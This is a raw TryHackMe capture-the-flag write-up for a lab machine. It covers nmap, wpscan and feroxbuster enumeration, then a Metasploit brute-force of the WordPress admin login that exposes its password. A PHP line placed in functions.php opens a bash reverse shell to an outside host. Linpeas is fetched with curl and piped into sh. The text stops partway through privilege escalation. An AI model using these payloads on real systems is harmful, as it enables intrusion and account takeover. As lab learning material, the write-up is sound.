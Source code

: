 # Relevant [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.84.237
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

Seems like there's only `22/tcp` and `80/tcp` open and operational. I'll launch a complete scan, just in case:

```
nmap -p- $target -oN nmap.full.scan -vv
```

This is supposed to iterate every single port and confirm if its status.

No more open ports, I'll run another scan for vulnerabilities, on these two ports specifically:

```
nmap --script vuln -p 22,80 $targ3t -oN nmap.vuln.scan -vv
```

Only `http-enum` script for port `80` applied and found several paths:

```
| http-enum:
|   /blog/: Blog
|   /phpmyadmin/: phpMyAdmin
|   /wordpress/wp-login.php: Wordpress login page.
|_  /blog/wp-login.php: Wordpress login page.
```

It clearly has a `/blog/wp-login.php`, although `http-wordpress-users` script returned an error:

```
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
```

I guess I can use a `wpscan` to see if there are any further vulnerabilities concerning wordpress specifically:

```
wpscan -e -t 10 --detection-mode aggressive --plugins-detection aggressive --plugins-version-detection aggressive --url $targ3t/blog -o wp.scan -v
```

And I'll also launch a similar one for `$targ3t/wordpress`:

```
wpscan -e -t 10 --detection-mode aggressive --plugins-detection aggressive --plugins-version-detection aggressive --url $targ3t/wordpress -o wp1.scan -v
```

Both scans delivered interesting results. For `/blog` path we get and `xml-rpc` vulnerability and several reference to metasploit modules, as well as an `admin` user's existence through brute-force. Much of the same (except for `admin`) was found on the `/wordpress` path. Both paths have a `readme.html` file accessible.

Now that we have to browse the site, let's add a recommended line to the `/etc/hosts` for this machine:

```
10.10.84.237    internal.thm
```

Now let's go to each `readme.html` file:

```
firefox internal.thm/blog/readme.html
firefox internal.thm/wordpress/readme.html
```

Both files are identical and although they don't link to any vulnerable places, it seems like we shouldn't be seeing this at all. Let's continue with our enumeration:

```
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

Some paths are accessible but besides the ones we already had discovered, none particularly stand out. To get back to `xml-rpc` vulnerability discovered by `wpscan`, let's see if we can use this scanner: `auxiliary/scanner/http/wordpress_xmlrpc_login`:

```
msfconsole -q -x "use auxiliary/scanner/http/wordpress_xmlrpc_login; set RHOSTS 10.10.84.237; set TARGETURI /blog; set USERNAME admin; set PASS_FILE /usr/share/wordlists/rockyou.txt; run"
```

And it found a password: 

```
[+] 10.10.84.237:80 - Success: 'admin:my2boys' 
```

And going to:

```
firefox internal.thm/blog/wp-login
```

Opens up an admin interface for this user. Manually enumerating the admin panel tells me it won't let me upload a php file for security reasons and it doesn't let me upload images either, due to an error about writing files to server's indicated directory. Theme editor lets us customize front end along with `functions.php`. I'll give a small edit to this file. I'll add the following line before all of the code:

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.11.100.243/9876 0>&1'"); __halt_compiler();
```

Start a `netcat` listener on my machine:

```
nc -lvnp 9876
```

And save this edit and go to `internal.thm/blog`

And we have a `www-data` shell! We can't visit any home directories with it though. Let's see if we have any privileged binaries:

```
find / -perm /4000 2>/dev/null
```

We can't use sudo, so these aren't very useful to us. Let's try linpeas this time:

```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

I looked through each red string, tried everything, but nothing is worthwhile or working.

<sup>_Assisted by [write-up](https://medium.com/swlh/tryhackme-internal-walkthrough-fdc6c4b569bd):_</sup> I guess we have to run these general commands too from time to time:

```
find / *.txt
```
